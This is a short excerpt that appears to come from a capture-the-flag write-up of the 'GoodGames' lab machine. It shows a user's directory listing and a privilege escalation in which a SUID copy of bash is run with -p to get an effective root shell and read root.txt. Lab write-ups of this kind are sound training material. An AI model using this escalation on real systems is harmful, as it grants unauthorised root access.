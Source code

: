 ```bash
lrwxrwxrwx 1 root     root           9 Nov  3  2021 .bash_history -> /dev/null
-rw-r--r-- 1 augustus augustus     220 Oct 19  2021 .bash_logout
-rw-r--r-- 1 augustus augustus    3526 Oct 19  2021 .bashrc
-rw-r--r-- 1 augustus augustus     807 Oct 19  2021 .profile
-rw-r----- 1 root     augustus      33 Jul 31 09:44 user.txt

```

```bash
augustus@GoodGames:~$ ./bash -p
bash-5.1# id
uid=1000(augustus) gid=1000(augustus) euid=0(root) groups=1000(augustus)
bash-5.1# cd /root
bash-5.1# cat root.txt
```

The `-p` flag preserves the effective user ID and group ID when running a shell, instead of dropping privileges.

---
